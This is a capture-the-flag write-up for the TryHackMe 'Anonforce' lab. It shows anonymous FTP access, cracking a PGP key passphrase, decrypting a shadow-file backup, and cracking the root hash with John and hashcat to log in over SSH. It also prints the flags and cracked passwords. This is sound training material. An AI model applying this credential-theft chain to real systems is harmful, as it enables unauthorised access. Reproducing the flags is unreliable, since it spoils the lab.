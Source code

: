 ## Anonforce - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/bsidesgtanonforce)

**IP: 10.10.172.195**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation <br>

**Tools Used**: Nmap, John The Ripper

**Author**: <br>

mauzware aka mauzinho <br>
[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Start with Nmap scan
  ```
  nmap -sC -sV -T5 -p- 10.10.172.195 
  
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  21/tcp open  ftp     vsftpd 3.0.3
  | ftp-syst: 
  |   STAT: 
  | FTP server status:
  |      Connected to ::ffff:10.21.127.185
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      At session startup, client count was 1
  |      vsFTPd 3.0.3 - secure, fast, stable
  |_End of status
  | ftp-anon: Anonymous FTP login allowed (FTP code 230)
  | drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
  | drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
  | drwxr-xr-x   17 0        0            3700 Apr 30 12:01 dev
  | drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
  | drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
  | lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
  | lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
  | drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
  | drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
  | drwx------    2 0        0           16384 Aug 11  2019 lost+found
  | drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
  | drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
  | drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
  | drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
  | dr-xr-xr-x   92 0        0               0 Apr 30 12:01 proc
  | drwx------    3 0        0            4096 Aug 11  2019 root
  | drwxr-xr-x   18 0        0             540 Apr 30 12:01 run
  | drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
  | drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
  | dr-xr-xr-x   13 0        0               0 Apr 30 12:01 sys
  |_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
  ```
  
- `notread [NSE: writeable]` looks suspicious, also log in as Anonymous with FTP.

---

## 🧍 User Privilege Escalation

- You can get user flag after logging in with FTP
  ```
  ftp 10.10.172.195
  Anonymous
  no password
  ```
  
- After getting in, look a bit and you'll find the flag `606083fd33beb1284fc51f411a706af8`, I also downloaded it to my Kali.
  ```
  cd home
  cd melodias
  get user.txt

  cat user.txt
  606083fd33beb1284fc51f411a706af8
  ```
  
- Now moving to escalation for root flag.

---

## 👑 Root Privilege Escalation

- When you check `/notread` you'll find 2 files inside: `private.asc` and `backup.pgp`, download them both. `private.asc` is PGP Private Key and `backup.pgp` is encypted file you have to decrypt. Lets work on that!
  
- Will convert `private.asc` to hash and crack it with John and then I will use cracked passphrase to decrypt `backup.pgp`
  ```
  gpg2john private.asc > keyhash.txt
  
  john --wordlist=/rockyou.txt keyhash.txt
  xbox360          (anonforce) 
  
  gpg --import private.asc     
  gpg: /.gnupg/trustdb.gpg: trustdb created
  gpg: key ABCDE1234FGHI567: public key "anonforce <melodias@anonforce.nsa>" imported
  gpg: key ABCDE1234FGHI567: secret key imported
  gpg: key ABCDE1234FGHI567: "anonforce <melodias@anonforce.nsa>" not changed
  gpg: Total number processed: 2
  gpg:               imported: 1
  gpg:              unchanged: 1
  gpg:       secret keys read: 1
  gpg:   secret keys imported: 1
  ```
  
- Awesome, passphrase is `xbox360` use it for both import and decryption. Now let's decrypt `backup.pgp` and check the content.
  ```
  gpg --output decrypted.txt --decrypt backup.pgp 
  gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
  gpg: encrypted with 512-bit ELG key, ID AA6268D1E6612967, created 2019-08-12
        "anonforce <melodias@anonforce.nsa>"

  cat decrypted.txt
  root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
  daemon:*:17953:0:99999:7:::
  bin:*:17953:0:99999:7:::
  sys:*:17953:0:99999:7:::
  sync:*:17953:0:99999:7:::
  games:*:17953:0:99999:7:::
  man:*:17953:0:99999:7:::
  lp:*:17953:0:99999:7:::
  mail:*:17953:0:99999:7:::
  news:*:17953:0:99999:7:::
  uucp:*:17953:0:99999:7:::
  proxy:*:17953:0:99999:7:::
  www-data:*:17953:0:99999:7:::
  backup:*:17953:0:99999:7:::
  list:*:17953:0:99999:7:::
  irc:*:17953:0:99999:7:::
  gnats:*:17953:0:99999:7:::
  nobody:*:17953:0:99999:7:::
  systemd-timesync:*:17953:0:99999:7:::
  systemd-network:*:17953:0:99999:7:::
  systemd-resolve:*:17953:0:99999:7:::
  systemd-bus-proxy:*:17953:0:99999:7:::
  syslog:*:17953:0:99999:7:::
  _apt:*:17953:0:99999:7:::
  messagebus:*:18120:0:99999:7:::
  uuidd:*:18120:0:99999:7:::
  melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
  sshd:*:18120:0:99999:7:::
  ftp:*:18120:0:99999:7:::
  ```

- Before doing SSH first crack the root hash and that's it, you can log in with SSH as root.
  ```
  echo "$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0" > root.hash
  john --wordlist=/rockyou.txt root.hash
  hikari

  hashcat -m 1800 root.hash /rockyou.txt 
  $6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:hikari
  ```

- Let's get the flag, log in with SSH and `cat` the flag.
  ```
  ssh root@10.10.172.195
  hikari

  whoami
  root
  cat /root/root.txt
  f706456440c7af4187810c31c6cebdce
  ```
  
---

## 🏁 Flags

- **User Flag**: `606083fd33beb1284fc51f411a706af8`
- **Root Flag**: `f706456440c7af4187810c31c6cebdce`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Decrypting .pgp file?`

- What did I learn?
  `Just sharpening my skills.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
